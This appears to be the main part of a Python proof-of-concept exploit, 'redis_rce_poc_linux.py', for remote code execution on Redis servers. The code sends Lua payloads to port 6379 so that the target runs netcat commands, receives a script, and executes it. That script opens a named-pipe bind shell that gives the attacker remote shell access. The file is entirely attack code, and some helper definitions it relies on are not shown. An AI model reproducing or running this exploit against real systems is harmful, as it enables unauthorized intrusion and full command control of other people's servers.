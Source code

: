 ```python
# First the victim listens on given port, receives "script", and saves it into
# a file named "a" ...
shellcmd1 = "nc -lpXXXPORTXXX >a"	# for Debian's netcat (with -p)
#shellcmd1 = "nc -l XXXPORTXXX >a"	# for Red Hat's netcat (without -p)

# ... then the victim sleeps, to make sure the script arrived, and executes the
# script.
shellcmd2 = "sleep 3 && sh a"

# This is the script that is sent to the target, and executed there
script = '''mknod /tmp/p p; /bin/sh 0</tmp/p|nc -lpXXXPORTXXX 1>/tmp/p'''	# for Debian's netcat (with -p)
#script = '''mknod /tmp/p p; /bin/sh 0</tmp/p|nc -l XXXPORTXXX 1>/tmp/p'''	# for Red Hat's netcat (without -p)

# Victim's IP address
target_ip = None
# The port victim will listen for "script", and further commands.
target_port = None

try:
	opts, args = getopt.getopt(sys.argv[1:],"hi:p:",["ip=","port="])
except getopt.GetoptError:
	print 'Usage: redis_rce_poc_linux.py -i <target IP> -p <target port>'
	sys.exit(1)

for opt, arg in opts:
	if opt == '-h':
		print 'Usage: redis_rce_poc_linux.py -i <target IP> -p <target port>'
		sys.exit()
	elif opt in ("-i", "--ip"):
		target_ip = arg
	elif opt in ("-p", "--port"):
		target_port = arg

if (target_ip is None) or (target_port is None):
	print 'Options "target IP" and "target port" are mandatory!'
	print 'Usage: redis_rce_poc_linux.py -i <target IP> -p <target port>'
	sys,exit(2)

shellcmd1 = shellcmd1.replace("XXXPORTXXX", target_port)
script = script.replace("XXXPORTXXX", target_port)

commands = cmdtohex(shellcmd1) + cmdtohex(shellcmd2)
luacode2 = luacode2.replace("XXXCOMMANDSXXX", commands)


# send the exploit code
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, 6379))
s.send(luacode1)
s.send("\n\n")
s.send(luacode2)
s.send("\n\n")
s.close()

#send the script
time.sleep(1)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, int(target_port)))
s.send(script)
s.close()

```
